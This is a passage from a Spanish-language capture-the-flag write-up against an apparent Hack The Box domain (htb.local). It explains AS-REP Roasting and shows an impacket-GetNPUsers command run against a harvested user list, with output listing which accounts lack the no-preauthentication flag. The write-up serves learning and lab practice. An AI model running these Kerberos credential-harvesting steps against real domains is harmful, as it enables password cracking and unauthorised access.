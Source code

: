 Esta podría ser otra forma de obtener los grupos y usuarios, pero no tan ordenado como con el **servicio RCP**.

Es lo más que obtener por ahora, aunque podemos ir usuario por usuario leyendo su información, sería una pérdida de tiempo por ahora.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="ASREP">Aplicando AS-REP Roasting Attack</h2>

¿Qué es el **AS-REP Roasting Attack**?

| **AS-REP Roasting Attack** |
|:-----------:|
| *AS-REP Roasting es una técnica de ataque que aprovecha la forma en que Kerberos maneja las solicitudes de autenticación para ciertas cuentas de usuario. En Kerberos, cuando un usuario intenta autenticarse, envía una solicitud conocida como AS-REQ (Authentication Service Request). Si la cuenta de usuario está configurada para no requerir preautenticación (Do not require Kerberos preauthentication), el controlador de dominio responde con un mensaje AS-REP que incluye información cifrada que puede ser utilizada para descifrar la contraseña del usuario.* |

<br>

Por lo que entiendo, al momento de aplicar este ataque, lo que obtenemos es un **TGT** que ya está configurado en una cuenta. Normalmente, estos **TGT** vienen en forma de hash, por lo que debemos aplicar **fuerza bruta** para obtener la contraseña.

Como nosotros ya tenemos una lista de usuarios, podemos probar si alguno de estos es vulnerable a este ataque y, como bien dice la descripción, es necesario que estos tengan activa la instrucción **UF_DONT_REQUIRE_PREAUTH** en el **servicio Kerberos**.

Para aplicar este ataque, vamos a usar la herramienta **GetNPUsers de impacket**.

Tan solo debemos indicarle que no pregunte la contraseña en la autenticación (`-no-pass`) y le indicamos nuestra lista de usuarios (`-userlist`):
```bash
impacket-GetNPUsers -no-pass -usersfile users.txt htb.local/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User HealthMailboxc3d7722 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfc9daad doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxc0a90c9 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox670628e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox968e74d doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox6ded678 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox83d6781 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfd87238 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxb01ac64 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
```